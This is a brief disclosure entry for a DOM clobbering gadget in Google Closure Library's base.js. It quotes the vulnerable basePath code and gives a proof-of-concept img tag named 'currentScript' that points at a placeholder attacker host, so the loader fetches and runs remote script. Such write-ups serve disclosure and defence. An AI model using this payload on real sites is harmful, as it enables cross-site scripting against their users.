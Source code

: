 ## Google Closure Library

### Meta

+ Library: Google Closure
+ Stars: 4.9K
+ Version: v20230103
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk
+ TheThing: None


### Library

URL: 
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.min.js`


### Vulnerable Code Snippet

```javascript
// If we have a currentScript available, use it exclusively.
var currentScript = doc.currentScript;
if (currentScript) {
  var scripts = [currentScript];
} else {
  var scripts = doc.getElementsByTagName('SCRIPT');
}
// Search backwards since the current script is in almost all cases the one
// that has base.js.
for (var i = scripts.length - 1; i >= 0; --i) {
  var script = /** @type {!HTMLScriptElement} */ (scripts[i]);
  var src = script.src;
  var qmark = src.lastIndexOf('?');
  var l = qmark == -1 ? src.length : qmark;
  if (src.slice(l - 7, l) == 'base.js') {
    goog.basePath = src.slice(0, l - 7);
    return;
  }
}
```
```javascript
goog.DebugLoader_.prototype.loadClosureDeps = function() {
// Circumvent addDependency, which would try to transpile deps.js if
// transpile is set to always.
var relPath = 'deps.js';
this.depsToLoad_.push(this.factory_.createDependency(
    goog.normalizePath_(goog.basePath + relPath), relPath, [], [], {}));
this.loadDeps_();
};
```

which eventually gets loaded...

## PoC

The library canot be compiled for this to work.

### PoC #1
```html
<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>

<script src=https://cdnjs.cloudflare.com/ajax/libs/google-closure-library/20230103.0.0/base.js></script>
```
